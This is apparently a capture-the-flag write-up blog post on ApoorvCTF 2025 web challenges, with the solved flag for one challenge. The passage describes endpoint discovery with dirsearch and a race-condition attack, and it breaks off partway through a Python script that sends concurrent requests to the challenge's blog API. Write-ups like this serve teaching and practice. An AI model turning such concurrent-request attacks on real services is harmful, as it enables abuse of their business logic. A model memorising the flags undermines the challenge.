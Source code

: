 ```yaml
---
layout: post
title: ApoorvCTF 2025
date: 01-03-2025
categories: [Documentation]
tag: [web, forensics, apoorvctf, apoorv, ctf]
image:
  path: /assets/img/titles/apoorvctf.png
  alt: apoorvctf image
description: Some web and forensics challenges by apoorvctf.
---
```


# Web
## SEO CEO
In this challenge, I used `dirsearch` and found an endpoint `/sitemap.xml`.
After some searching, I discovered another unusual endpoint that returned a message indicating that to get the `flag`, the value must be either yes or no.
So, I treated `flag` as a variable and set its value to `yes`.

![image](https://hackmd.io/_uploads/HyzuUWmoJx.png)

![image](https://hackmd.io/_uploads/BkqcIbQiyl.png)

![image](https://hackmd.io/_uploads/Sy3s8bmikg.png)

`Flag: apoorvctf{s30_1snT_0pt1onaL}`

## Blog-1
This challenge involved a `race condition vulnerability`.

I logged in, explored the website, and noticed that posting 5 times would grant a reward. However, despite multiple attempts, I encountered timing issues.

To work around this, I created a new account and made one initial post with only 3 characters, causing an error. I knew that the `title` or `content` had to be between `400-500` characters, so this invalid post helped me capture the current timestamp and token, which I then used to exploit the `vulnerability`

![image](https://hackmd.io/_uploads/BkGNdZms1e.png)

I am currently facing issues in re-exploiting this challenge, and at that time, I also had to try many times to succeed

`script`
```python
import requests
import concurrent.futures

url = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"

headers = {
    "Authorization": "Bearer <token>",
    "Content-Type": "application/json",
}

blog_data = {
    "title": "adsadf",
    "description": "nasavgda",
    "visible": True,
    "date": "2025-03-03T10:47:08.685Z",
```